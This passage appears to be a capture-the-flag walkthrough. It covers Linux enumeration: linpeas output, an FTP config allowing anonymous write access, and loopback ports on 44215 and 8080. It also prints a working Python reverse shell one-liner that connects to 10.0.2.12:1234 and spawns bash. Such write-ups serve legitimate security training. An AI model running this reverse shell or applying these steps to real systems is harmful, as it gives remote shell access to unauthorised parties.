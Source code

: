 During my researches I found a strange script owned by root in `/home/backupmgr/.tmp/` directory.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.12",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

It is clearly a python reverse shell, now I don't know if it could be usefull. Unfortunately I don't have write permissions on it.

For a deeper analysis I ran linpeas again, but this time with the backupmgr user which has higher permissions.
Based on its output, it seems that the FTP server's configuration file (/etc/vsftpd.conf) allows anonymous access.
```
╔══════════╣ Analyzing FTP Files (limit 70)
-rw-r--r-- 1 root root 5985 May 18  2020 /etc/vsftpd.conf                                                                                                                                                                                   
anonymous_enable
local_enable=YES
write_enable=YES
#anon_upload_enable=YES
#anon_mkdir_write_enable=YES
#chown_uploads=YES
#chown_username=whoever
```

These are the network ports on which processes are actively listening for incoming connections

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                           
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:44215         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
```

There are two suspicious ports:
* A process is listening on TCP port 44215 on the loopback interface (127.0.0.1). It is actively waiting for incoming connections.
* There is a process listening on TCP port 8080 on the loopback interface (127.0.0.1). It is actively waiting for incoming connections.
